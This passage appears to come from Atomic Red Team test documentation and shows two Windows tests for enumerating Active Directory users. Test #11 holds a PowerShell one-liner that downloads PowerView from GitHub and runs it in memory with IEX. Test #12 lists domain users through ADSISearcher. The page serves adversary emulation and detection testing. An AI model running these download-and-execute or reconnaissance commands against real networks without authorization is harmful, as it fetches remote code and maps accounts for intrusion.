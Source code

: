 


<br/>
<br/>

## Atomic Test #11 - Get-DomainUser with PowerView
Utilizing PowerView, run Get-DomainUser to identify the domain users. Upon execution, Users within the domain will be listed.

**Supported Platforms:** Windows


**auto_generated_guid:** 93662494-5ed7-4454-a04c-8c8372808ac2






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1' -UseBasicParsing); Get-DomainUser -verbose
```






<br/>
<br/>

## Atomic Test #12 - Enumerate Active Directory Users with ADSISearcher
The following Atomic test will utilize ADSISearcher to enumerate users within Active Directory.
Upon successful execution a listing of users will output with their paths in AD.
Reference: https://devblogs.microsoft.com/scripting/use-the-powershell-adsisearcher-type-accelerator-to-search-active-directory/

**Supported Platforms:** Windows


**auto_generated_guid:** 02e8be5a-3065-4e54-8cc8-a14d138834d3






#### Attack Commands: Run with `powershell`! 


```powershell
([adsisearcher]"objectcategory=user").FindAll(); ([adsisearcher]"objectcategory=user").FindOne()
```





